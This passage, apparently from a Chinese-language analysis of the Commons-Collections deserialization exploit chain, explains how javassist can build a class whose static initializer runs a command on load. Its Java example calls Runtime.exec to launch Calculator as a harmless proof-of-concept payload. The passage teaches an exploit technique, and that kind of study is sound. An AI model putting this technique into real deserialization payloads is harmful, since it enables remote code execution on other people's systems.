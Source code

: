 反编译一下 Person.class 可以看到最终构造出来的代码是这样的

![](Commons-Collections-反序列化利用链分析/image-20210211145943465.png)

javassist 带来的攻击面在于 Java 进行实例化对象的时候会调用 static 代码块

创建一个 class

```java
public class JDemo {
    public static void main(String[] args) throws IOException, CannotCompileException, NotFoundException {
        ClassPool pool = ClassPool.getDefault();
        CtClass cc = pool.makeClass("TestDemo");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\");";
        cc.makeClassInitializer().insertBefore(cmd);
        cc.writeFile();
    }
}
```
